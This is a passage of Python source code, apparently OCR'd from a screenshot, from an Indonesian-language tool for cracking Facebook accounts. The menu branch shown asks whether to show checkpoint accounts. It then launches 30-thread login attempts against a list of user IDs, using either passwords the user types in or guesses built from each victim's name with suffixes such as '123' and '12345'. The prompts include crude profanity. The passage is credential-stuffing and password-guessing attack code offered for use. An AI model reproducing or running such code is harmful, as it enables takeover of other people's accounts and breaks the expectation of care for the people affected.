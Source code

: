 	elif fiisayangwidiya in ["3","03"]:
		print(f"{B} | ")
		print(f"{B} | ")
		print(f"{P}[•] Tampilkan opsi chekpoint {B}Y/T")
		jalan(f"{P}[•]{M} Terkadang jika menampilkan opsi jarang dapet akun !!!")
		print(f"{B} | ")
		_checkoptions_=input(f"{P}[•] Pilih : {B}")
		if _checkoptions_ in ["y","Y"]:
			try:
				_key = "Anjink"
				key = "Anjink"
				if _key in key:
					print(f"{B} | ")
					print(f"{B} | ")
					print(f"{P}[•] Crack menggunakan password manual/default {B}M/D")
					print(f"{B} | ")
					ter =input(f"{P}[•] Pilih : {B}")
					if ter in ["m","M"]:
						with ThreadPoolExecutor(max_workers=30) as coeg:
							print(f"{B} | ")
							print(f"{B} | ")
							print(f"{P}[•] Contoh password : {B}sayang,anjing,kontol")
							print(f"{B} | ")
							asu = input(f"{P}[•] Buat sandi : {B} ").split(",")
							if len(asu) =="":
								print(f"{B} | ")
								print(f"{P}[•]{M} Sandi tidak boleh kosong anjink");exit()
							started()
							for user in id:
								uid, name = user.split("<=>")
								coeg.submit(mbasic, uid, asu)
						exit()
					elif ter in ["d","D"]:
						with ThreadPoolExecutor(max_workers=30) as coeg:
							started()
							for user in id:
								uid, name = user.split("<=>")
								frist=name.split(" ")
								if len(frist)>=6:
									fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
								elif len(frist)<=2:
									fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
								elif len(frist)<=3:
									fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
								else:
									fii = [ "bissmilah", "anjing", "indonesia", "sayangkamu" ]
								coeg.submit(mobil, uid, fii)
						exit()
				else:print(f"{key}");exit()
			except (KeyError,IOError):print(f"{_key}");exit()
